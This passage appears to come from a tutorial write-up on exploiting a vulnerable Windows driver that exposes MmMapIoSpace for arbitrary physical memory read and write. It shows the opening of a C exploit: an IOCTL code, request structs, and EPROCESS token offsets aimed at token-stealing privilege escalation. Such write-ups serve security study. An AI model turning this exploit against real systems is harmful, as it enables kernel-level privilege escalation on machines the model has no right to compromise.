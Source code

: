 The function lets any authenticated user access to `MmMapIoSpace` calls and
seems to be specifically designed to let a program from userspace read and write
to any physical address. If you ever find a driver that does this, congrats! You
might have found a zero day!

## Exploit ##

```c
#include<stdio.h>
#include<stdint.h>

#include<Windows.h>


#define MMM_ioctl 0x88892820
#define SystemHandleInformation 0x10
#define SystemHandleInformationSize 1024 * 1024 * 2

#define EPROC_PID 0x440
#define EPROC_FLINK 0x448
#define EPROC_TOKEN 0x4b8

struct MMM_req_read {
    uint32_t set_to_0;
	uint8_t chunk_len;
	uint32_t addr;
	uint32_t copy_len;
	uint32_t out_len;
};

struct MMM_req_write {
    uint32_t set_to_1;
    uint8_t chunk_len;
    uint32_t addr;
    uint32_t copy_len;
    // char buffer_to_copy[...]
};

typedef NTSTATUS* (fNtQuerySystemInformation)(
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength);

typedef struct _SYSTEM_HANDLE_TABLE_ENTRY_INFO {
    USHORT UniqueProcessId;
    USHORT CreatorBackTraceIndex;
    UCHAR ObjectTypeIndex;
    UCHAR HandleAttributes;
    USHORT HandleValue;
    PVOID Object;
    ULONG GrantedAccess;
} SYSTEM_HANDLE_TABLE_ENTRY_INFO, * PSYSTEM_HANDLE_TABLE_ENTRY_INFO;

typedef struct _SYSTEM_HANDLE_INFORMATION {
    ULONG NumberOfHandles;
    SYSTEM_HANDLE_TABLE_ENTRY_INFO Handles[1];
} SYSTEM_HANDLE_INFORMATION, * PSYSTEM_HANDLE_INFORMATION;

typedef NTSTATUS(NTAPI* _NtQueryIntervalProfile)(
    DWORD ProfileSource,
    PULONG Interval);

// https://vulndev.io/2022/09/24/windows-kernel-exploitation-arbitrary-memory-mapping-x64/
```
